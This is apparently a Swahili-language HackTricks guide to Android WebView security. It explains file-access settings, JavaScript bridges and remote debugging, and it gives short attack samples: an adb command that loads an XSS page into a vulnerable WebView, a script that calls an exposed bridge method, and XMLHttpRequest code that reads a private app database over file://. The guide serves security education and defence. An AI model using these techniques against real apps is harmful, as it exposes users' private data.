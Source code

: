 # Mashambulizi ya WebView

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka mwanzo hadi kuwa bingwa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PR kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Mwongozo Rahisi kuhusu Mipangilio na Usalama wa WebView

### Muhtasari wa Udhaifu wa WebView

Sehemu muhimu ya maendeleo ya Android inahusisha kushughulikia WebViews kwa usahihi. Mwongozo huu unasisitiza mipangilio muhimu na mazoea ya usalama ili kupunguza hatari zinazohusiana na matumizi ya WebView.

![Mfano wa WebView](../../.gitbook/assets/image%20(718).png)

### **Upatikanaji wa Faili katika WebViews**

Kwa chaguo-msingi, WebViews huruhusu upatikanaji wa faili. Utendaji huu unadhibitiwa na njia ya `setAllowFileAccess()`, inayopatikana tangu kiwango cha API ya Android 3 (Cupcake 1.5). Programu zilizo na ruhusa ya **android.permission.READ_EXTERNAL_STORAGE** zinaweza kusoma faili kutoka kwenye uhifadhi wa nje kwa kutumia mfumo wa URL ya faili (`file://path/to/file`).

#### **Vipengele Vilivyopitwa na Wakati: Upatikanaji wa Kila Aina Kutoka kwenye URL za Faili**

- **Upatikanaji wa Kila Aina Kutoka kwenye URL za Faili**: Kipengele hiki kilichopitwa na wakati kiliruhusu maombi kutoka kwenye URL za faili za asili, kwa kuweka hatari kubwa ya usalama kutokana na mashambulizi ya XSS. Mipangilio ya chaguo-msingi ni imelemazwa (`false`) kwa programu zinazolenga Android Jelly Bean na mpya zaidi.
- Ili kuangalia mipangilio hii, tumia `getAllowUniversalAccessFromFileURLs()`.
- Ili kubadilisha mipangilio hii, tumia `setAllowUniversalAccessFromFileURLs(boolean)`.

- **Upatikanaji wa Faili Kutoka kwenye URL za Faili**: Kipengele hiki pia kilichopitwa na wakati, kilidhibiti upatikanaji wa yaliyomo kutoka kwenye URL za mfumo wa faili nyingine. Kama upatikanaji wa kila aina, mipangilio yake ya chaguo-msingi ni imelemazwa kwa usalama bora.
- Tumia `getAllowFileAccessFromFileURLs()` kuangalia na `setAllowFileAccessFromFileURLs(boolean)` kuweka.

#### **Upakiaji Salama wa Faili**

Ili kulemaza upatikanaji wa mfumo wa faili wakati bado unapata mali na rasilimali, njia ya `setAllowFileAccess()` hutumiwa. Kuanzia Android R na zaidi, mipangilio ya chaguo-msingi ni `false`.
- Angalia na `getAllowFileAccess()`.
- Wezesha au lemesha kwa kutumia `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

Darasa la **WebViewAssetLoader** ni njia ya kisasa ya kupakia faili za ndani. Inatumia URL za http(s) kwa kupata mali na rasilimali za ndani, ikilingana na sera ya Same-Origin, hivyo kuwezesha usimamizi wa CORS.

### **Kushughulikia JavaScript na Schemes za Intent**

- **JavaScript**: Limelemazwa kwa chaguo-msingi katika WebViews, linaweza kuwezeshwa kupitia `setJavaScriptEnabled()`. Tahadhari inashauriwa kwani kuwezesha JavaScript bila ulinzi sahihi kunaweza kuleta udhaifu wa usalama.

- **Schemes za Intent**: WebViews zinaweza kushughulikia mpango wa `intent`, ambao unaweza kusababisha udanganyifu ikiwa hautasimamiwa kwa uangalifu. Mfano wa udhaifu ulihusisha parameter ya WebView iliyofichuliwa "support_url" ambayo inaweza kutumiwa kutekeleza mashambulizi ya cross-site scripting (XSS).

![WebView Inayoweza Kudukuliwa](../../.gitbook/assets/image%20(719).png)

Mfano wa kudukua kwa kutumia adb:
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
### Daraja la Javascript

Kuna kipengele kinachotolewa na Android kinachowezesha **JavaScript** katika WebView kuita **kazi za programu za asili za Android**. Hii inafanikishwa kwa kutumia njia ya `addJavascriptInterface`, ambayo inaunganisha JavaScript na utendaji wa asili wa Android, inayoitwa _Daraja la JavaScript la WebView_. Tahadhari inashauriwa kwani njia hii inaruhusu kurasa zote ndani ya WebView kupata kifaa cha Uunganisho wa JavaScript kilichosajiliwa, ikileta hatari ya usalama ikiwa habari nyeti itafichuliwa kupitia interface hizi.

### Mambo Muhimu ya Kuzingatia

- **Tahadhari kubwa inahitajika** kwa programu zinazolenga toleo la Android chini ya 4.2 kutokana na udhaifu unaoruhusu utekelezaji wa nambari kwa mbali kupitia JavaScript mbaya, ukichangamkia uchunguzi.

#### Kutekeleza Daraja la JavaScript

- **Vifaa vya JavaScript** vinaweza kuingiliana na nambari ya asili, kama inavyoonyeshwa katika mifano ambapo njia ya darasa inafichuliwa kwa JavaScript:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
- JavaScript Bridge inawezeshwa kwa kuongeza kiolesura kwenye WebView:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
- Uwezekano wa kutumia JavaScript, kwa mfano, kupitia shambulio la XSS, inawezesha wito wa njia za Java zilizofichuliwa:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
- Ili kupunguza hatari, **zuia matumizi ya daraja la JavaScript** kwa nambari iliyosafirishwa na APK na zuia kupakia JavaScript kutoka vyanzo vya mbali. Kwa vifaa vya zamani, weka kiwango cha chini cha API kuwa 17.

### Utekelezaji wa Kijijini wa Kanuni ya Mbali (RCE)

- Mbinu iliyodokumentiwa inaruhusu kufikia RCE kupitia uchunguzi kwa kutekeleza mzigo maalum. Walakini, alama ya `@JavascriptInterface` inazuia ufikiaji usioidhinishwa wa njia, ikipunguza eneo la shambulio.

### Uchunguzi wa Mbali

- **Uchunguzi wa mbali** unawezekana na **Zana za Watengenezaji wa Chrome**, kuruhusu mwingiliano na utekelezaji wa JavaScript usio na kikomo ndani ya yaliyomo ya WebView.

#### Kuwezesha Uchunguzi wa Mbali

- Uchunguzi wa mbali unaweza kuwezeshwa kwa WebViews zote ndani ya programu kwa:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
- Ili kuwezesha uchunguzi kwa msingi wa hali ya kufuatilia ya programu:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Kupora faili yoyote

- Inaonyesha jinsi ya kupora faili yoyote kwa kutumia XMLHttpRequest:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## Marejeo
* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako inatangazwa kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PR kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
